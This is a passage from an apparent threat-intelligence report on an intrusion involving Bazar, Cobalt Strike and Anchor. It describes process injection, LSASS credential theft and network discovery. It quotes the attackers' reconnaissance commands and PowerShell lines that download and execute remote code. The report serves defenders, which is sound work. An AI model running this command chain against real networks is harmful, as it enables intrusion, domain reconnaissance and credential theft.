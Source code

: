 Bazar quickly moved into a Werfault process to handle command and control communication avoiding making any network connections directly.

Process injection was also seen in other key system executables such as winlogon.exe.

Cobalt Strike was seen locking access to SMB beacons.

Anchor was also seen triggering process tampering.

# Credential Access

The threat actors were seen using remote thread creation to inject into lsass to extract credentials.

The same activity as seen via a the larger process tree.

# Discovery

Bazar initiated some discovery activity within 10 minutes of executing.
- net view /all
- net view /all /domain
- nltest.exe /domain_trusts /all_trusts
- net localgroup "administrator"
- net group "domain admins" /domain
- systeminfo
- whoami
- reg query hklm\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall /v "DisplayName" /s
- reg query hklm\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall /v "DisplayName" /s
- reg query hkcu\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall /v "DisplayName" /s
- reg query hkcu\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall /v "DisplayName" /s

Cobalt Strike initiated the following discovery commands:
- net group \"enterprise admins\" /domain
- net group \"domain admins\" /domain
- systeminfo

On the domain controller the following discovery was run:
- nltest /dclist:"DOMAIN.EXAMPLE
- nltest /domain_trusts /all_trusts
- IEX (New-Object Net.Webclient).DownloadString('"http://127.0.0.1:3672/'); Get-NetSubnet
- IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:45082/'); Get-NetComputer -ping

The following PowerShell command was executed from the domain controller.

Systems were pinged from the domain controller to confirm connectivity.

C:\Windows\system32\cmd.exe /C ping HOSTX

Four days into the intrusion the threat actors dropped and executed Advanced_IP_Scanner_2.5.3850.exe which kicked off a scan of the network.

AWS was used to get the public IP of the infected machine, multiple times.
